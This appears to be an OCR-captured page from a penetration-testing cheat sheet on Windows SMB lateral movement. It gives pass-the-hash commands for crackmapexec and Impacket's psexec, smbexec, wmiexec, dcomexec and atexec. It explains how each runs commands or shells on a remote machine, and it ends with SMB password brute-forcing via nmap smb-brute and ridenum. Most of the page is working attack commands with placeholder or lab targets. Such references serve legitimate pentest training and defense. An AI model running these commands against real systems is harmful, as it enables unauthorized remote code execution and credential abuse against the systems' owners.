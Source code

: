 	crackmapexec smb <IP> -d <DOMAIN> -u Administrator -H <HASH> #Pass-The-Hash	
		
		
		
	
psexec/smbexec
Both options will create a new service (using \pipe\svcctl via SMB) in the victim machine and use it to execute something (psexec will upload an executable file to ADMIN$ share and smbexec will point to cmd.exe/powershell.exe and put in the arguments the payload --file-less technique--).
More info about psexec and smbexec.
In kali it is located on /usr/share/doc/python3-impacket/examples/


	#If no password is provided, it will be prompted
	./psexec.py [[domain/]username[:password]@]<targetName or address>
	./psexec.py -hashes <LM:NT> administrator@10.10.10.103 #Pass-the-Hash
	psexec \\192.168.122.66 -u Administrator -p 123456Ww
	psexec \\192.168.122.66 -u Administrator -p q23q34t34twd3w34t34wtw34t # Use pass the hash
Using parameter-k you can authenticate against kerberos instead of NTLM

wmiexec/dcomexec
Stealthily execute a command shell without touching the disk or running a new service using DCOM via port 135.
In kali it is located on /usr/share/doc/python3-impacket/examples/

#If no password is provided, it will be prompted
	
	./wmiexec.py [[domain/]username[:password]@]<targetName or address> #Prompt for password
	./wmiexec.py -hashes LM:NT administrator@10.10.10.103 #Pass-the-Hash

#You can append to the end of the command a CMD command to be executed, if you dont do that a semi-interactive shell will be prompted
Using parameter-k you can authenticate against kerberos instead of NTLM


#If no password is provided, it will be prompted
	
	./dcomexec.py [[domain/]username[:password]@]<targetName or address>
	./dcomexec.py -hashes <LM:NT> administrator@10.10.10.103 #Pass-the-Hash
#You can append to the end of the command a CMD command to be executed, if you dont do that a semi-interactive shell will be prompted

AtExec
Execute commands via the Task Scheduler (using \pipe\atsvc via SMB).
In kali it is located on /usr/share/doc/python3-impacket/examples/


	./atexec.py [[domain/]username[:password]@]<targetName or address> "command"
	./atexec.py -hashes <LM:NT> administrator@10.10.10.175 "whoami"
Impacket reference
https://www.hackingarticles.in/beginners-guide-to-impacket-tool-kit-part-1/

Bruteforce users credentials
This is not recommended, you could block an account if you exceed the maximum allowed tries

nmap --script smb-brute -p 445 <IP>
	
	ridenum.py <IP> 500 50000 /root/passwds.txt 
	
	
	